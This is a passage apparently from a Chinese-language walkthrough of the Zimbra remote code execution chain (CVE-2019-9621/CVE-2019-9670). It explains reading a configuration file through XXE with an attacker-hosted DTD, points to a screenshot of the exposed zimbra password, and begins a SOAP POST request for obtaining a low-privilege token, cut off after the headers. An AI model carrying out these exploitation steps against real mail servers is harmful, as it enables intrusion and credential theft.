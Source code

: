 ![](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId27.png)

这里利用了CVE-2019-9670漏洞来读取配置文件，你需要在自己的VPS服务器上放置一个dtd文件，并使该文件能够通过HTTP访问。为了演示，我在GitHub上创建了一个仓库，从GitHub上获取dtd文件。

上图中用红框圈起来的就是zimbra账号的密码

### 第三步：获取低权限token

> POST请求包如下：

    POST /service/soap HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 467  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  
